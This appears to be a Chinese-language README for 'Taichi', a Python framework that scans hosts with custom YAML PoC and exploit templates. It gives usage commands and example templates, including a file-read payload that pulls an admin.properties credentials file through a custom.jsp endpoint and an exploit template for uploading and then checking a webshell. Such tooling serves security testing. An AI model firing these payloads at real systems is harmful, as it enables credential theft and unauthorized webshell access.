

# Taichi

持续更新中

# 历史更新

2023.3.24

新增识别exp，poc功能

新增扫描多个poc功能

适配[CVE-2023-28432](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)



2023.2.35

新增poc名称显示

# 前言

之前写了几个poc，感觉代码有很多相似的地方，所以我寻思能不能写个大体框架，这样以后就不用改来改去了。当然，我也知道有nuclei这样成熟好用的工具，但是我还是想试试，所以就搞了一个这个。（大佬勿喷）

目前才搞了几天，测试的数量也不多，算是个雏形，所以会有很多bug，请见谅。如有bug或者建议欢迎联系我

# 介绍

支持自定义poc或者exp的漏洞扫描框架

# 使用方法

```
python3 Taichi.py -h
usage: Taichi.py [-h] [-rh remote_host] [-f file_path] [-o outfile_path]
                 [-t thread_num] [-p poc_path] [-a all poc or exp]

Taichi by atk7r

options:
  -h, --help            show this help message and exit
  -rh remote_host, --rhost remote_host
                        Please input host to scan.
  -f file_path, --file file_path
                        Please input file path to scan.
  -o outfile_path, --outfile outfile_path
                        Please input path for output file.
  -t thread_num, --thread thread_num
                        Please input thread number.
  -p poc_path, --poc poc_path
                        Please input poc path to scan.
  -a all poc or exp, --all all poc or exp
                        Please input poc path to scan.
```

### 扫描单个目标

```
python3 Taichi.py -rh 123.123.123.123 -p poc.yaml
python3 Taichi.py -rh 123.123.123.123 -a /root/Taichi/pocs
```

### 扫描多个目标

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt
```

### 多线程扫描

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt -t 5
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt -t 5
```

# 文件说明

## 目录

```
|
|--------- configuration(配置文件)
|
|--------- model(模式文件)
|
|--------- pocs(poc或者exp)
```

## 两种yaml格式

**注意：yaml文件中参数的位置不可以改变**

### poc.yaml格式

```
#种类：poc对应的是scan.py
- type:
  - type: "poc"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
  
#response包里的关键字
- word:
  - word:
      - "password"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"
```

#### type

之所以需要type参数，是因为某些漏洞需要二次访问，type为poc的漏洞，例如禅道sql注入这样，访问一次即可判断漏洞

#### method

reques的方式，根据自己需求来定

#### payload

例子中的payload

```
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

可以随意变换为request包里的内容，例如:

```
  - a: 'aaaaaaaaaaa'
```

但是，如果像[(CVE-2023-28432)](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)这样的漏洞，没有payload，写成：

```
  - isNone : 'isNone'
```

#### response

response包的关键词，用于判断漏洞是否存在，目前只可以支持一个参数

#### url

因为我在采用了url+<拼接内容>这样的方法来访问url，例如：http://192.168.0.1/a/b/b.jsp，就要把/a/b/b.jsp填入url参数

### exp.yaml格式

```
#种类：exp对应的是attack.py
- type:
  - type: "exp"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - s_bean: 'ruleFormulaValidate&script=u0067\u0020\u003d\u0020\u0074'

#response包里的关键字
- word:
  - word:
      - "ok"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"

#attack中 验证攻击成功的 请求方式
- method-V:
  - method: "get"

#webshell位置
- verify:
  - verify : "/login_listyes.jsp"

```

同理，payload内容也是可以变的

这里就只介绍和poc.yaml不一样的地方

#### type

这种type为exp的是为了满足二次访问的需求，例如上传了webshell，之后再访问webshell

#### method-V

二次访问的请求方式，根据自己需求来

#### verify

这个地方就是上面说的二次访问的请求方式，如果你传了webshell，这个地方就填入你webshell的路径，例如：http://192.168.0.1/a/b/b.jsp，那这个地方就填入/a/b/b.jsp
